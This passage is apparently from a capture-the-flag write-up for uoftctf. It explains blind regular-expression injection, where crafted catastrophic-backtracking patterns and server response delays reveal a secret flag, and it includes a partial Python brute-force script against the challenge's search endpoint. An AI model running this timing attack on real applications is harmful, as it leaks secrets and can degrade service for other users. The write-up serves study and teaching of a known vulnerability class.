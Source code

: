 ```js
function generatePreview(content, matchIndices, previewLength) {
  adjustedIndices.forEach(match => {
    preview =
      preview.slice(0, match.start) +
      `<mark>${preview.slice(match.start, match.end)}</mark>` +
      preview.slice(match.end);
  });
  return (preview.includes("<mark></mark>")) ? null : preview;
}
```

> There were a couple of other considerations I looked into, but I won't go into detail about those.

#### Solution

While I was stuck in an infinite loop of self-doubt and searching for vulnerabilities, one of my teammates gave me this article:  
[https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets](https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets)  
(It’s an interesting read, so please check it out.)

The article also referred to the “founder” of the attack: [https://diary.shift-js.info/blind-regular-expression-injection/](https://diary.shift-js.info/blind-regular-expression-injection/) (a more technical read).

It basically explains that regex can be injected in a clever way, similar to blind SQL injection, to retrieve information. You craft a regex so that if it matches, it causes ReDoS (Regular Expression Denial of Service). If there is a timeout in the server response (e.g., the server is slow to respond), you can assume the match happened.

In our case, the server implements a timeout where your search “times out” if it doesn’t finish within 1 second, so we don’t really risk causing a full DoS.

**TL;DR**: You use ReDoS to determine secrets based on the time delay when executing the regex.

So, I wrote a Python script that checks for a time delay to determine whether the flag is correct or not.

> The reason this exploit works is because there’s a timeout that prevents full ReDoS, but the application still searches the content of _all_ files (including `flag.txt`) regardless of its “visibility”.

```python
import requests
import re
import string

base_url = "http://34.162.172.123:3000"
search_api = f"{base_url}/search"
timeout = 1.0

symbols = "}{_|!#$%&()*+,-./:;<=>?@[\\]^~"
characters = f"{symbols}{string.ascii_lowercase}{string.digits}{string.ascii_uppercase}"

# "known" part of the secret
possible_flag = "uoftctf{"
while True:
    for char in characters:
        # Reference: https://diary.shift-js.info/blind-regular-expression-injection/
        query = "/^(?=^" + re.escape(f"{possible_flag}{char}") + ")((((.*)*)*)*)*salt/"
        payload = {
            "query": query,
            "language": "All"
        }
        res = requests.post(search_api, data=payload)
```